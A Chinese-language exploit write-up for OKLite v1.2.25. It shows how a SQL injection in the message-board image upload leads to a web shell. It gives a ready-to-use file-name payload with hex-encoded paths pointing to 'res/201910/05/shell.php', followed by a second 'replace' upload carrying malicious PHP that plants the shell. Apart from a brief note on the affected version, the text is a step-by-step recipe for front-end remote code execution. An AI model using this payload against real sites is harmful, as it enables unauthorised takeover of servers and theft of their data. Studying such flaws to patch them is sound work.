



# OKLite v1.2.25 SQL 注入导致 getshell(前台)

> 原文：[http://book.iwonder.run/0day/OKLite/sql.html](http://book.iwonder.run/0day/OKLite/sql.html)

## 一、漏洞简介

这个漏洞在 2017 年在 PHPOK 当中就被畅师傅就被发现了。PHPOK 系统被修复了，但是在 OKLite 当中还存在。

## 二、漏洞影响

OKLite v1.2.25 版本

## 三、复现过程

地址：[http://www.0-sec.org/index.php?id=message](http://www.0-sec.org/index.php?id=message)

在线留言处上传一个图片并抓包，把文件名修改为：

```
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc 
```



上传成功之后会返回图片的 id 和保存的路径：



再次上传一个图片，把地址中的 save 改成 replace，添加一个参数名为`oldid`，值为图片的 id + 1。

图片的内容改为恶意的 php 代码：



上传完成之后可在`res\201910\05`目录下生成一个 shell.php


